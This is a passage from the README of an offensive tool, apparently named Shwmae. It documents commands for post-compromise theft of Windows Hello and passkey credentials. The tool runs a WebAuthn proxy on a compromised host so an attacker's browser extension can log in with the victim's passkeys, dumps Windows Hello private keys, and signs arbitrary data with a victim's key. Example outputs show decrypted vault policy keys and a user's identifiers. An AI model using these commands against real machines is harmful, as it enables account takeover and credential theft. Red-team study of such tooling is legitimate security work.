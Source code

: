 Once the WebAuthn HTTP listener is setup on a compromised host, which defaults to listening on port 8000, you can install the ShwmaeExt within an attacking browser.  Once you set the listener URL within the extension, you can login via Passkey authentication using any credentials available from the compromised host.  You can find the exploded extension inside the `ShwmaeExt` folder.

### Example

```Shwmae webauthn
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
[=] WebAuthn proxy running, press enter to exit
```

## Dump

The `dump` command can be used for extracting Windows Hello backed private keys that are backed by the Software Key Storage provider.  You cannot use this mode to extract keys that are backed by the Platform Key Storage Provider.

### Example

```
Shwmae.exe dump --key-name login.windows.net/de60a4fa-d583-4eb0-ab66-ce358af8279c/mary.gruber@ethicalchaos.devst
```

## Sign

The `sign` command can be used for signing arbitrary data with a specific key.  This mode can be useful in scenarios where no specific integration exists within the tool.

The `--key-name` argument is used to target the specific Windows Hello key pair to use and the `--data` argument is used to calculate the signature.  The data should be presented as a Base64 encoded string, but the string is first decoded to binary prior to generating the signature.  The binary signature is converted to Base64 and printed to the console.  

### Example

```
Shwmae.exe sign --key-name login.windows.net/de60a4fa-d583-4eb0-ab66-ce358af8279c/mary.gruber@ethicalchaos.dev --data AAAAAA
[+] Decrypted SYSTEM vault policy 4bf4c442-9b8a-41a0-b380-dd4a704ddb28 key: 2f662c4708167c02732ae89cd4681557be8c4059b3eab1716bbf20ac5fd000fdd0c5038ce2fc4c89fd6627f45b8e613611e8282d8f38c08e828c023f6b8f060b
[+] Decrypted vault policy:
  Aes128: 3cb7dbc9f920a6df0aab211b67ef673d
  Aes256: 43642515f325f55c332d14e0295d3ad43dfdb05324fadb7bea687f1a9e0e6ecd
[=] Found key in container 1f75e567-63ab-4f90-b1f6-cfc30b399085 for user GINGE\mary.gruber (S-1-5-21-1003644063-402998240-3342588708-1111)
[+] Successfully decrypted NGC key set from protector type Bio
[+] Success:
MogfSZKrtYs9kfy0jPrVODpu4/eJfXHvGu+TQJzf9JG9JMug2+rmG7zEBuzUunMVy7jyHSBwv1eQ78yQr/G5y0VfoeKYnW5UbKuO9ZnImTuIFem4RE7RhQ84Pm4BgEQ3W16ebcf5CIHnIOZpOec6nbh7WZBIi2AG8N5fWK9itWA1Uk7j1TAFO7gCfAbrE9O6KiMLe4AAdw2vjR5s9RVqw1MdacWKOBDwGVm+VmHY6kYXSCovyWJ+ESoi75fRfRSgyPcHViNOP77pnUDOeMfl9nsE6C0UEKSCvJ+GGJy3u5uiK5fC1w73TG8s/Y2O6YSJpjnXqC5ZJhrE/vLtJNtGWg==
```
